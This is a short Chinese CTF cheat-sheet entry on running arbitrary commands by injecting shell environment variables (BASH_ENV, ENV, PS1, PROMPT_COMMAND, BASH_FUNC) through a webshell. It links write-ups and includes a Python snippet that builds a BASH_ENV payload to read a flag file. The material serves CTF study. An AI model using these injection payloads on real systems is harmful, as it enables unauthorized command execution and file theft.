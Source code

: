 ## webshell 环境变量注入

[我是如何利用环境变量注入执行任意命令](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html)
[2022 虎符 CTF-WEB 赛后复现](https://blog.csdn.net/qq_45619909/article/details/128946735)
[能源安全比赛-Gohttp](https://mp.weixin.qq.com/s/wOddOgJLRdyqK2d2LmV8Hw)

```sh
BASH_ENV：可以在bash -c的时候注入任意命令
ENV：可以在sh -i -c的时候注入任意命令
PS1：可以在sh或bash交互式环境下执行任意命令
PROMPT_COMMAND：可以在bash交互式环境下执行任意命令
BASH_FUNC_xxx%%：可以在bash -c或sh -c的时候执行任意命令
```

BASH_ENV 示例

```py
def encode(text):
    from urllib.parse import quote
    return quote(text)
data = encode('cat /home/ctf/flag')
f"BASH_ENV='$({data}>+/tmp/3.txt)'"
```
